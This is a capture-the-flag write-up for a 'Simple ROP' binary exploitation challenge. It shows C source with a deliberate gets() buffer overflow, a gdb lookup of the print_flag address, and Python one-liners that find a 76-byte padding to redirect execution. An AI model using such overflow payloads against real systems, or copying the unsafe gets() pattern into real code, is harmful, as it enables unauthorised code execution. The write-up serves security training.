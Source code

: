 Challenge: Simple ROP 
----------------------------------------
Category: Binary Exploitation 
----------------------------------------
120 points 
----------------------------------------

```
Description:

Written by r3ndom

On the shell there is a folder /problems/simple-rop.
Hint: Read flag.txt

Files = Source and Binary
```

``` C
simple-rop.c

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

```shell
gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x804851a <print_flag>  ===> address of 'print_flag'

BUFFER = 64

TEST IN LOCAL:

python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*68+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*72+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop ===> MATCH !
```

<img src="./../Files/ROP.png">

